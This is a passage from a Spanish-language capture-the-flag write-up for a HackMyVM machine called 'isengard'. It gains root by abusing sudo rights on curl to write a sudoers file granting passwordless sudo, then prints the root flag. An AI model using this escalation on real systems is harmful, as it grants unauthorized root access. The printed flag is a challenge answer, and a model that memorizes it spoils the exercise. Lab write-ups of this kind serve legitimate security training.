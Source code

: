```shell
URL=file:///tmp/sauron
LFILE=/etc/sudoers.d/sauron
sudo curl $URL -o $LFILE
```

Info:

```
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    35  100    35    0     0  35000      0 --:--:-- --:--:-- --:--:-- 35000
```

Ahora si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
    (ALL : ALL) NOPASSWD: ALL
```

Vemos que ha funcionado, por lo que seremos `root` de esta forma.

```shell
sudo su
```

Info:

```
root@isengard:/tmp# whoami
root
```

Por lo que leeremos la `flag` del usuario `root`.

> root.txt

```
HMV{Y0uD3stR0y3dTh3r1nG}
```
